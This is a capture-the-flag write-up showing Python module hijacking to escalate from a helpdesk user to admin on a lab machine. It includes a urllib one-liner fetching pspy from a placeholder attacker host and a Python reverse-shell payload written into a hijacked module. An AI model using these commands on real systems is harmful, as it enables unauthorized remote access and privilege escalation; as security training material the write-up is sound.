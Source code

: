 # privilege-not-included

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/780dd12f-f92d-4c2b-844c-30ac732318e3)

# Solution

Connecting to the provided IP and Port, we are dropped in a shell as user `helpdesk`:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/3cba9acf-a2de-4a54-a523-8cc4c030d3cf)

Looking at the running processes, we can see the `admin` user running a run.sh script from his home folder:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/6ef1f671-0c7d-4c1e-bac5-e57bd7b0ad57)

Inside the `helpdesk` home folder though, we find an interesting looking file. `include.py` is owned by admin, but we can read it.  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/ab52193f-f09a-49d7-9222-4bd46f661661)

After closer look at the script, we can see that it's importing a weird non-standard module and then trying to use it to "include" a php file:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/ebedddf9-ebe4-4055-a565-3cb2237c6b4d)

We have write permissions over the php file as well:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/fc86fedc-e4e7-44cd-b09e-819776c616a8)

Because curl and wget weren't on the box and I couldn't install the requests library, I used the urllib.requests python library to get [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) on the machine:

```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('http://<VPS IP or ngrok>/pspy32s', 'pspy32s')"
```

Running pspy allows us to see that admin runs every few minutes and replaces the include file. It also then runs a socat command as user helpdesk which must be why they also copy the include file in the helpdesk home folder:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/00ea7105-dc9f-43d9-85d0-e62db91ae09b)

This is a clear indication that we need to focus on this file. Given that it's importing this include_php module and may try to run include.py from `helpdesk`, then we can simply try a python module/library hijacking. 

We create a file called `include_php.py` with our python reverse shell or code that we want to run as user `admin` in it and then wait. 

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("bash")'>/home/helpdesk/include_php.py
```

We get our callback shortly thereafter and get the flag:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/ef71c3bd-fb8a-4bf8-999c-c6825ec4ff84)

`CTF{8cff7b8b13af53032ccc1e37317dbbe673046933df4954e9e4f126317934c64b}`
